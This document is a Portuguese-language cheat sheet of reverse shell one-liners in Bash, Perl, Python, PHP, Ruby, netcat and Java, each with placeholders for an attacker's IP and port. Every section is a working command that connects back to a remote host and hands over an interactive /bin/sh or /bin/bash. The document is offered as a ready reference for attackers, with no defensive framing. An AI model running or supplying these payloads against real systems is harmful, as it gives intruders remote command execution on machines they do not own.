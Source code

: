 # Reverse shell em varias linguagens

### Bash
interpretador de comandos simples
```
bash -i >& /dev/tcp/[IP]/[Porta] 0>&1
```

### PERL
```
perl -e 'use Socket;$i="[IP]";$p=[Porta];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
Para servidores linux no geral
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[Porta]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
Para conexões TCP, se não funcionar teste 4, 5, 6...
```
php -r '$sock=fsockopen("[IP]",[Porta]);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("[IP]",[Porta]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcar
Mais simples, foi criado para isso e também é o mais recomendado.
```
nc -e /bin/sh [IP] [Porta]
```

### Jave
Conexões TCP
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[Porta];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
